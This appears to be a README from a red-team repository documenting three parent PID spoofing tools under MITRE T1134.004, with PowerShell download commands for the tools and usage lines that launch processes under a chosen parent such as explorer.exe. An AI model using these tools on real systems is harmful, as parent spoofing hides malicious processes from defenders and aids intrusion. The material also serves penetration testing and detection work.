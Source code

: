 ## PPIDSpoof.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|PPIDSpoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.ps1" -OutFile "PPIDSpoof.ps1"
```

```powershell
Import-Module -Name ".\PPIDSpoof.ps1" -Force
```

<br />

Spawns a notepad.exe process as a child of the current process.
```powershell
Start-ATHProcessUnderSpecificParent -ParentId $PID -FilePath notepad.exe
```

Spawns a notepad.exe process as a child of the first explorer.exe process.
```powershell
Get-Process -Name explorer | Select-Object -First 1 | Start-ATHProcessUnderSpecificParent -FilePath notepad.exe
```

Creates a notepad.exe process and then spawns a powershell.exe process as a child of it.
```powershell
Start-Process -FilePath $Env:windir\System32\notepad.exe -PassThru | Start-ATHProcessUnderSpecificParent -FilePath powershell.exe -CommandLine '-Command Write-Host foo'
```

<br />

## SelectMyParent.exe

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|SelectMyParent|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/SelectMyParent.exe" -OutFile "SelectMyParent.exe"
```

```powershell
.\SelectMyParent.exe <process-to-use> <pid-to-spoof>

# Spawn notepad.exe using id 32 (calculator)
.\SelectMyParent.exe notepad 32
```

<br />


## spoof.exe

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|spoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/spoof.exe" -OutFile "spoof.exe"
```

```powershell
.\spoof.exe <process-to-use> <pid-to-spoof>
.\spoof.exe pentestlab.exe 1116
```
